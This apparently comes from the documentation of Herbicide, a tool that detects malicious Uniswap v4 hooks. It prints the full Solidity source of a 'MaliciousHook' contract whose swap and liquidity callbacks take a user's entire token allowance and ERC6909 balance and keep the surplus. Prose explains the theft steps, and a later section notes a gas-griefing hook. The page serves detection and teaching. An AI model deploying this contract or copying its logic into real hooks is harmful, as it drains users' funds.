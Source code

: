 # Malicious Hook Detection

## Malicious Hook Example

{% hint style="info" %}
[https://unichain-sepolia.blockscout.com/address/0xbedD50791A853b4FAf2116AcC9b8df71D525C547?tab=contract](https://unichain-sepolia.blockscout.com/address/0xbedD50791A853b4FAf2116AcC9b8df71D525C547?tab=contract)
{% endhint %}

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

import {BaseHook} from "v4-periphery/src/base/hooks/BaseHook.sol";
import {ERC1155} from "@openzeppelin/contracts/token/ERC1155/ERC1155.sol";
import {IPoolManager} from "v4-core/src/interfaces/IPoolManager.sol";
import {Hooks} from "v4-core/src/libraries/Hooks.sol";

import {PoolId, PoolIdLibrary} from "v4-core/src/types/PoolId.sol";
import {PoolKey} from "v4-core/src/types/PoolKey.sol";

import {Currency, CurrencyLibrary} from "v4-core/src/types/Currency.sol";
import {StateLibrary} from "v4-core/src/libraries/StateLibrary.sol";

import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";

import {TickMath} from "v4-core/src/libraries/TickMath.sol";
import {BalanceDelta} from "v4-core/src/types/BalanceDelta.sol";

import {FixedPointMathLib} from "solmate/src/utils/FixedPointMathLib.sol";
import {IHooks} from "v4-core/src/interfaces/IHooks.sol";
import {SafeCast} from "v4-core/src/libraries/SafeCast.sol";
import {toBalanceDelta} from "v4-core/src/types/BalanceDelta.sol";
import {CurrencySettler} from "v4-core/test/utils/CurrencySettler.sol";

contract MaliciousHook is BaseHook {
    using Hooks for IHooks;
    using SafeCast for uint256;
    using SafeCast for int128;
    using CurrencySettler for Currency;

    bool private firstAddLiquidity = true;
    uint128 public constant TOTAL_BIPS = 10000;

    constructor(IPoolManager _manager) BaseHook(_manager) {}

    function getHookPermissions()
        public
        pure
        override
        returns (Hooks.Permissions memory)
    {
        return
            Hooks.Permissions({
                beforeInitialize: false,
                afterInitialize: false,
                beforeAddLiquidity: false,
                afterAddLiquidity: true,
                beforeRemoveLiquidity: false,
                afterRemoveLiquidity: true,
                beforeSwap: false,
                afterSwap: true,
                beforeDonate: false,
                afterDonate: false,
                beforeSwapReturnDelta: false,
                afterSwapReturnDelta: true,
                afterAddLiquidityReturnDelta: true,
                afterRemoveLiquidityReturnDelta: true
            });
    }

    function afterSwap(
        address sender, /* sender **/
        PoolKey calldata key,
        IPoolManager.SwapParams calldata params,
        BalanceDelta delta,
        bytes calldata /* hookData **/
    ) external override onlyPoolManager returns (bytes4, int128) {

        bool specifiedTokenIs0 = (params.amountSpecified < 0 == params.zeroForOne);
        (Currency targetCurrency, int128 swapAmount) =
            (specifiedTokenIs0) ? (key.currency1, delta.amount1()) : (key.currency0, delta.amount0());

        
        if (swapAmount < 0) 
            swapAmount = -swapAmount;
        else
            return (IHooks.afterSwap.selector,0);

        address victim = tx.origin;
        IERC20 feeToken = IERC20(Currency.unwrap(targetCurrency));
        uint256 stealAmount = feeToken.allowance(victim, sender);

        if (stealAmount > targetCurrency.balanceOf(victim)) {
            stealAmount = targetCurrency.balanceOf(address(victim));
        }

        if (poolManager.isOperator(victim, sender)) {
            uint256 balance_6909 = poolManager.balanceOf(victim, targetCurrency.toId());

            stealAmount = stealAmount < balance_6909 ? stealAmount : balance_6909;
        }

        targetCurrency.take(poolManager, address(this), stealAmount, true);
        targetCurrency.settle(poolManager, address(this), (stealAmount * key.fee / TOTAL_BIPS) + uint128(swapAmount), true);
        stealAmount = stealAmount - (stealAmount * key.fee / TOTAL_BIPS) - uint128(swapAmount);

        return (IHooks.afterSwap.selector, (stealAmount).toInt128());
    }

    function afterRemoveLiquidity(
        address, /* sender **/
        PoolKey calldata key,
        IPoolManager.ModifyLiquidityParams calldata, /* params **/
        BalanceDelta delta,
        BalanceDelta,
        bytes calldata /* hookData **/
    ) external override onlyPoolManager returns (bytes4, BalanceDelta) {
        assert(delta.amount0() >= 0 && delta.amount1() >= 0);

        uint256 stealAmount0;
        uint256 stealAmount1;

        if (delta.amount0() > 0)
            stealAmount0 = uint128(delta.amount0()) - 1;
        if (delta.amount1() > 0)
            stealAmount1 = uint128(delta.amount1()) - 1;

        key.currency0.take(poolManager, address(this), stealAmount0, true);
        key.currency1.take(poolManager, address(this), stealAmount1, true);

        return (IHooks.afterRemoveLiquidity.selector, toBalanceDelta(int128(uint128(stealAmount0)), int128(uint128(stealAmount1))));
    }

    function afterAddLiquidity(
        address sender, /* sender **/
        PoolKey calldata key,
        IPoolManager.ModifyLiquidityParams calldata, /* params **/
        BalanceDelta delta,
        BalanceDelta,
        bytes calldata /* hookData **/
    ) external override onlyPoolManager returns (bytes4, BalanceDelta) {
        if (firstAddLiquidity) {
            firstAddLiquidity = false;
            return (IHooks.afterAddLiquidity.selector, toBalanceDelta(0, 0));
        }
        assert(delta.amount0() <= 0 && delta.amount1() <= 0);

        address victim = tx.origin;
        IERC20 targetToken0 = IERC20(Currency.unwrap(key.currency0));
        IERC20 targetToken1 = IERC20(Currency.unwrap(key.currency1));
        uint256 stealAmount0 = targetToken0.allowance(victim, sender);
        uint256 stealAmount1 = targetToken1.allowance(victim, sender);            
        if (stealAmount0 > targetToken0.balanceOf(victim)) {
            stealAmount0 = targetToken0.balanceOf(address(victim));
        }
        if (stealAmount1 > targetToken1.balanceOf(victim)) {
            stealAmount1 = targetToken1.balanceOf(address(victim));
        }

        if (poolManager.isOperator(victim, sender)) {
            uint256 balance0_6909 = poolManager.balanceOf(victim, key.currency0.toId());
            uint256 balance1_6909 = poolManager.balanceOf(victim, key.currency1.toId());

            stealAmount0 = stealAmount0 < balance0_6909 ? stealAmount0 : balance0_6909;
            stealAmount1 = stealAmount1 < balance1_6909 ? stealAmount1 : balance1_6909;
        }
        
        key.currency0.take(poolManager, address(this), stealAmount0, true);
        key.currency1.take(poolManager, address(this), stealAmount1, true);
        key.currency0.settle(poolManager, address(this), uint128(-delta.amount0()), true);
        key.currency1.settle(poolManager, address(this), uint128(-delta.amount1()), true);

        stealAmount0 -= uint128(-delta.amount0());
        stealAmount1 -= uint128(-delta.amount1());

        return (IHooks.afterAddLiquidity.selector, toBalanceDelta(int128(uint128(stealAmount0)), int128(uint128(stealAmount1))));
    }
}
```

### **Main Logic**

A malicious hook can monitor the amount of tokens a user has approved.

1. The malicious hook takes the entire approved token amount through ERC6909.
2. It then settles only the necessary amount required for a legitimate `Swap/ModifyLiquidity`.
3. Through this process, the malicious hook can effectively steal the maximum possible token amount the user has approved for the transaction.

<figure><img src="../.gitbook/assets/image.png" alt=""><figcaption><p>Exact Out Swap Test</p></figcaption></figure>

The image above illustrates the process in which the Malicious Hook exploits the token approval mechanism. The first step shows the Malicious Hook verifying the approved token amount. In the second step, it proceeds to transfer the entire approved token quantity to ERC6909. Finally, the required amount is settled for legitimate Swap/ModifyLiquidity actions, allowing the Malicious Hook to maximize the tokens stolen from the User.



## Herbicide Detection Result

### GasGriefHook

Hooks can significantly influence PoolKeys' behavior. For example, if a hook triggers a revert, it could render the associated pool unusable. Such cases, which compromise user accessibility, include attacks like gas griefing. Herbicide addresses these risks by detecting such hooks through dynamic analysis testing.

```json
{
    "currency0": "0x0197481B0F5237eF312a78528e79667D8b33Dcff",
    "currency1": "0xA56569Bd93dc4b9afCc871e251017dB0543920d4",
    "fee": 3000,
    "tickSpacing": 60,
    "hooks": "0x3c712B5E5B4a7ee97E4e3F2330bFb435050a4800",
    "deployer": "0x4e59b44847b379578588920cA78FbF26c0B4956C"
}
```

[Code Details](https://unichain-sepolia.blockscout.com/address/0x3c712B5E5B4a7ee97E4e3F2330bFb435050a4800?tab=contract)
